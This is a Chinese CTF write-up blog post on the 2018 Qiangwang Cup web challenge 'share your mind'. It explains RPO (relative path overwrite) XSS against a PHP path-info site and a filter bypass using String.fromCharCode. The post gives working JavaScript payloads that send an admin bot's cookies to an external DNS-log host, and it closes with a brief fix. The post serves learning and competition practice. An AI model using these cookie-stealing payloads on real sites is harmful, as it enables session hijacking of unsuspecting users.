 ```yaml
---
layout:     post
title:      "强网杯CTF wtiteup之share your mind"
subtitle:   " \"安全研究\""
date:       2018-03-27 22:30:32
author:     "y1r0nz"
header-img: "img/hack.jpg"
tags:
    - 安全研究
    - CTF
    - 渗透经历
---
```




#### 0x01 前言

​	强网杯CTF online初赛已经告一段落，首先还是要感谢和跪舔一波公司战队所有的小伙伴，解题过程虽然烧脑但很精彩，2000个比赛战队情况下一度杀入前40。

​	早在比赛之前我就认为第二届相比第一届名次的角逐会更加激烈，对自己的失望也和期望基本一致，但也并不意味着我完全对玩ctf失去了兴趣。正因为参与了比赛并在比赛中尽力解出属于自己的题目，在赛后看看别人家的writeup，才可以根据这些思路总结下比赛经历并将其运用在其他地方。所以，经历这些过程之后的成长才是最重要的。

​	比赛期间自己在share your mind这题上Fuzz的时间最多，最终也没有想到思路，看了赛后大佬的writeup才后知后觉，这里简要的总结下吧。

— 

#### 0x02 关于做share your mind这题自己的一些心得

* 漏洞挖掘以及RPO XSS成因

​	首先这题是一道web题，初步看了下提示以后就开始做了。

   ![share your mind1](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind1.png)	

​	根据这题的提示来到题目主页，这里要求输入用户名密码，注册了个账户发现能用便进去一看究竟了。

![share your mind2](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind2.png)

​	来到主页report页面中发现了这样一个输入框，网站开发人员想要你把存在问题的页面链接提交给后台给他处理。大多数老铁和司机们看到这里基本上可以断定这题是一个xss盲打后台管理员cookie的了。

![share your mind3](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind4.png)

​	由于后台用的phantomjs写的xss bot（类似假的管理员机器人，xss打过去基本上秒回那种），这里随便构造一下有本站地址的url然后把xss payload放到后面打过去，发现后台确实可以成功访问自己的dnslog服务器。

![share your mind4](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind3.png)

​	由于本熊对xss的了解仅停留在写poc水平，还没对如何利用进行过深入研究过，但是根据题目hint1提示说xss的点根本不在report页面，所以我也就没在fuzzing payload上花更多的功夫。所以，后面的过程一直在寻找xss注入点，在寻找的过程中还发现了一枚彩蛋~ 

![share your mind5](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind5.png)

发现网站使用了php的htmlspecialchar函数并开启ENT_QUOTES开关对所有输出进行了过滤，也就是说html编码了尖括号和单双引号。。当我看到这个函数以为找到了突破口，过滤函数是可以绕过，并且确定xss绝对在这```http://39.107.33.96:20000/index.php/view/article/你发布文章的id```但是一直没有找到输出内容不在html标签之内的地方，所以当时的思路就一直卡在这里。。

​	在看了[Ph0rse大佬写的writeup](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)后才知道原来发布文章不写标题只写内容在view文章页面是直接打印的内容，而两个都写了的话是把文章标题和内容都输出在html标签之间的，看看下面两张图就明白了。

![share your mind6](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind6.png)

![share your mind7](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind7.png)

好了，我们确定了xss输入点以后怎么触发这个xss呢，答案很隐蔽，用RPO XSS方式。首先我们来了解下RPO(relative path overwrite)即相对路径覆盖结合xss这种漏洞的成因，在漏洞利用之前首先需要掌握php url的一些冷知识。那就是phpinfo url，类似url重写。

​	根据[Wiki](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)里面对url重写的解释：url rewrite是一种REST的相关技术，它可以在 Web Server 中，针对用户所提供的 URL 进行转换后，再传入 Web Server 中的程序处理器。这里可以知道url重写其实就是将常见携带参数形式的url重写为不携带参数的伪静态形式，在题目中可以反映为：

__http://39.107.33.96:20000/index.php/view/article/1494__ 等价于 __http://39.107.33.96:20000/index.php?methode=view&article=1494__

这样的形式。

同时，在php的特性中%2f会被直接解析为斜杠，在通常情况下```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```代表```http://39.107.33.96:20000/index.php/view/article/1494/../../../../index.php```即在浏览器解析为向上跳了三层目录并使用新的index.php覆盖掉原来的index.php目录。说到这里我们思考下，假如服务端开启了phpinfo url呢？会不会无视php目录跳转的特性直接把```..%2f..%2f..%2f..%2findex.php```当作参数进行解析？答案是肯定的。

我们从前端代码中可以发现jquery.min.js这个文件是使用的相对路径的方式引入到index.php页面中。

![share your mind8](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind8.png)

浏览器将```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php```将解析为```http://39.107.33.96:20000/index.php/view/article/1494/..%2f..%2f..%2f..%2findex.php/static/js/jquery.min.js```这种形式。从而导致最终访问```http://39.107.33.96:20000/index.php/static/js/jquery.min.js```这个页面，那本质上请求的是什么呢，其实还是```http://39.107.33.96:20000/index.php/view/article/1494```这篇文章的内容，绿盟那篇文章解释得很清楚：__客户端浏览器在加载相对路径文件时是以最后一个/为相对目录加载具体资源文件的__。只是将这篇文章的内容引入到了jquery.min.js，从而让浏览器误以为文章的内容就是这个js文件。

![share your mind9](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind9.png)

下面可以来实验一下，在write article页面写入alert(1)这种js语句。然后构造上述请求，最终触发xss。

```http://39.107.33.96:20000/index.php/view/article/1493/..%2f..%2f..%2f..%2findex.php```

![share your mind10](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind10.png)

我们可以f12看下浏览器的请求形式

![share your mind11](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind11.png)

显然，alert(1)这条语句最终引入到jquery.min.js中并覆盖掉原文件内容，浏览器误以为jquery.min.js 中的内容为alert(1)导致js脚本被执行。

* 漏洞最终利用

有了RPO XSS这个核武器，接下来就可以构造rpxss payload的exp脚本了。之前有提到服务端对所有输出到页面的字符使用了htmlspecialchar函数处理，故不可以使用单引号的。所以这里还有一个知识点就是使用javascript的fromCharCode函数绕过过滤限制。可以构造类似如下payload：

```(new Image()).src = 'http://VPSIP:Port?'+document.cookie```

最终构造的pyaload如下：

```(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,55,101,52,122,119,48,99,101,121,101,46,105,111,63)+document.cookie;```

从report页面发送到后台，这里code只需要写个脚本跑个md5字典下来进行碰撞猜测就可以得到了

![share your mind12](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind12.png)

打过去就可以得到cookie，然而这里cookie的值提示要打另外一个目录

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind13.png)

搬砖Ph0rse的代码，exp可以按照下面这种方式用iframe标签的src属性去读本地相对路径。

``````javascript
var iframe = document.createElement(String.fromCharCode(105,102,114,97,109,101));
iframe.src = String.fromCharCode(47,81,87,66,95,102,108,52,103,47,81,87,66,47);
iframe.id = String.fromCharCode(102,114,97,109,101);
document.body.appendChild(iframe);
iframe.onload = function (){
    var c = document.getElementById(String.fromCharCode(102,114,97,109,101)).contentWindow.document.cookie;
var y1r0nz = document.createElement(String.fromCharCode(108,105,110,107));
y1r0nz.setAttribute(String.fromCharCode(114,101,108), String.fromCharCode(112,114,101,102,101,116,99,104));
y1r0nz.setAttribute(String.fromCharCode(104,114,101,102), String.fromCharCode(47,47,55,101,52,122,119,48,46,99,101,121,101,46,105,111,47,63,102,108,97,103,61) + c);
document.head.appendChild(y1r0nz);
}
``````

这段js代码的意思简而言之，在经过浏览器渲染以后就是下述的两行html代码

``` html
<iframe id="frame" src="/QWB_fl4g/QWB/">
<link rel="prefetch" href="http://7e4zw0.ceye.io/?flag=document.getElementById(frame).contentWindow.document.cookie">
```

prefetch属性规定了当前文档在链接文档之前被调用

提交到后台便在dnslog上得到flag了^_^

![share your mind13](https://github.com/yangrz/blog/raw/gh-pages/img/share your mind15.png)

— 

#### 0x03 总结&修复方案

ctf的题烧脑，但是每一题的干货特别多。这题主要三个考点：

* 掌握通过xss bot盲打后台获取session的常见套路
* phpinfo url形式如何通过相对路径覆盖的方式触发xss payload
* 使用fromCharCode函数绕过htmlspecialchar函数的单引号过滤

浏览器和服务器这种误差是在现阶段内无法及时解决的，涉及到双方各自的应用标准。目前看来，比较直接的解决办法就是在页面中避免直接使用相对路径进行静态文件的加载了。

— 

#### 0x04 参考文献

1. 深入剖析RPO漏洞  [https://xianzhi.aliyun.com/forum/topic/2220#toc-2](https://xianzhi.aliyun.com/forum/topic/2220#toc-2)
2. Url重写 [https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB](https://zh.wikipedia.org/wiki/URL%E9%87%8D%E5%AF%AB)
3. RPO技术浅析 [http://blog.nsfocus.net/rpo-attack/](http://blog.nsfocus.net/rpo-attack/)
